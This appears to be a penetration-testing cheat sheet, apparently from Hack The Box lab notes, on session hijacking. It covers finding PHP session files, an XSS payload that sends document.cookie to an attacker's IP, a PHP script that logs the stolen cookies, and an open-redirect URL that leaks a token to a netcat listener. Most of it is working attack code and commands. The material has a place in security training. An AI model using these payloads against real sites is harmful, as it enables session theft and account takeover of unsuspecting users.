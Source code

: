>**ℹ️ Info:**
>
>Check for cookies or anything that may serve as a session identifier.
>
>Check if we can fixate a cookie in a parameter.

>**ℹ️ Info:**
>
>If HTTP is being used we can sniff the network with Wireshark.

## Post-Exploitation Session Hijacking
Check for the save location of the cookies.
```bash
locate php.ini
cat /etc/php/7.4/apache2/php.ini | grep 'session.save_path'
cat /etc/php/7.4/cli/php.ini | grep 'session.save_path'
```

Example:
- cookie name: PHPSESSID
- cookie value: s6kitq8d3071rmlvbfitpim9mm

## XSS
Our index.php will receive the cookie, start the server with `php -S 0.0.0.0:8000`:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This will be the payload that goes into the XSS parameter:
```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

## Open Redirect

1. The vulnerable URL:
   ```
   http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM_TOKEN>
   ```
2. Modify it to redirect to an attacker's controlled site:
   ```
   http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN_IP>:PORT&token=<RANDOM_TOKEN>
   ```
3. Set up a Netcat listener:
   ```bash
   nc -lvnp 1337
   ```
4. When the victim clicks the modified link, the attacker captures their request, including the token.
